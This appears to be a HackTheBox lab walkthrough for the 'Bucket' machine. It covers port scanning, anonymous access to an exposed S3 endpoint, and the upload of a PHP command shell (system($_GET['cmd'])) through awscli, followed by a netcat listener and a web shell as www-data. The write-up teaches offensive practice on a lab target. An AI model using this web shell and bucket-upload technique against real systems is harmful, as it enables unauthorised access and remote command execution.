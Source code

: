 <h2>AWS lab on HackTheBox called ‘Bucket’</h2>

<h3>Initial Access:</h3>
Step 1: nmap -Pn 10.10.10.212 -p- --min-rate=5000|awk -F '/' '/open/ {print $1}'

Output returns open ports 22 and 80.

Step 2: Enumerate these open ports further with nmap: nmap -Pn 10.10.10.212 --min-rate=5000 -p 22,80 -sCV -oN nmap-htb-buckets 

Step 3: Nmap output shows a domain name of bucket.htb.  Enter this into /etc/hosts file so that we can access this domain name: 10.10.10.212 bucket.htb

Step 4: Visit the site http://bucket.htb.  Looking over the source code on the site shows a source at a subdomain of http://s3.bucket.htb.  

Enter this subdomain into /etc/hosts: 10.10.10.212 bucket.htb s3.bucket.htb

Step 5: The subdomain of s3.bucket.htb indicates that this is an aws s3 bucket.  Let’s check if we can list any s3 buckets with anonymous access using awscli: aws --no-sign-request s3 ls --endpoint-url http://s3.bucket.htb

This return shows that there is a s3 bucket called ‘adserver’.

Step 6: List the ‘adserver’ s3 bucket: aws --no-sign-request s3 --endpoint-url http://s3.bucket.htb ls s3://adserver

Download ‘index.html’ listed in the bucket: aws s3 --no-sign-request --endpoint-url http://s3.bucket.htb  cp s3://adserver/index.html .

Opening index.html confirms that this bucket is listing the website http://bucket.htb.  

Step 7: Check for more information on what we can do on this s3 bucket by running the ‘OPTIONS’ request method on the s3.bucket.htb endpoint.

We see from this that we can use the ‘PUT’ request method which is used to upload files.  

Step 8: Upload a php command shell (`<?php system($_GET[“cmd”]); ?>`) to the bucket: aws s3 --no-sign-request --endpoint-url http://s3.bucket.htb cp test.php s3://adserver/

Navigate to the uploaded file: http://bucket.htb/test.php?cmd=whoami

Step 9: Open up a netcat listener: nc -lvnp 4444

Step 10: Upload a php webshell using the same command used in step 8.  Then navigate to the uploaded web shell to get a shell as user www-data.





